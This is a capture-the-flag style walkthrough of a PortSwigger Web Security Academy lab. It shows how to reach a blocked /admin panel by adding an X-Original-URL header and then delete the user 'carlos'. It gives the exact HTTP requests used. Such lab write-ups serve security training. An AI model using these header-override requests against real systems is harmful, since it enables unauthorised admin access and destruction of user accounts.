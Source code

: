 
# URL-based access control can be circumvented

This website has an unauthenticated admin panel at /admin, but a front-end system has been configured to block external access to that path. However, the back-end application is built on a framework that supports the X-Original-URL header.

To solve the lab, access the admin panel and delete the user carlos.

---------------------------------------------

References: 

- https://portswigger.net/web-security/access-control



![img](images/URL-based%20access%20control%20can%20be%20circumvented/1.png)

---------------------------------------------

Accessing directly /admin returns a 403 error code:



![img](images/URL-based%20access%20control%20can%20be%20circumvented/2.png)


It is possible to access /admin with:

```
GET / HTTP/2
...
X-Original-Url: /admin/
```



![img](images/URL-based%20access%20control%20can%20be%20circumvented/3.png)


And the we can delete the user with this payload. The parameter “username" must be in the URL:

```
GET /?username=carlos HTTP/2
X-Original-Url: /admin/delete
```



![img](images/URL-based%20access%20control%20can%20be%20circumvented/4.png)